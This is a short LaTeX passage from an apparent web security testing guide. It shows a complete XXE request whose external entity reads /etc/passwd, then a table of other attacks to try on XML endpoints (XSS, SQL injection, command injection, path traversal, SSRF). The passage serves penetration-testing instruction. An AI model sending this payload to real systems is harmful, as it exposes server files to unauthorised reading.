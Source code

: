 \documentclass{article}
\begin{document}
\begin{lstlisting}[caption=Complete XXE Test via Content Type Modification]
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 200

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
\end{lstlisting}

\subsection{Important Note: Beyond XXE}

\begin{dangerbox}
Keep in mind that \textbf{XML is just a data transfer format}. When testing any XML-based functionality, don't limit yourself to XXE attacks. You should also test for other common vulnerabilities.
\end{dangerbox}

\subsubsection{Other Vulnerabilities to Test}

When you find an endpoint that accepts XML input, always test for:

\begin{table}[h]
\centering
\begin{tabular}{|l|l|}
\hline
\textbf{Vulnerability} & \textbf{Description} \\
\hline
XSS (Cross-Site Scripting) & Can you inject JavaScript that executes when XML is rendered? \\
\hline
SQL Injection & Does the XML data get used in database queries? \\
\hline
Command Injection & Are XML values passed to system commands? \\
\hline
Path Traversal & Can you use \texttt{../} sequences in XML values? \\
\hline
SSRF & Can you make the server request internal resources? \\
\hline
\end{tabular}
\end{table}

\subsubsection{Encoding Your Payloads}
\end{document}
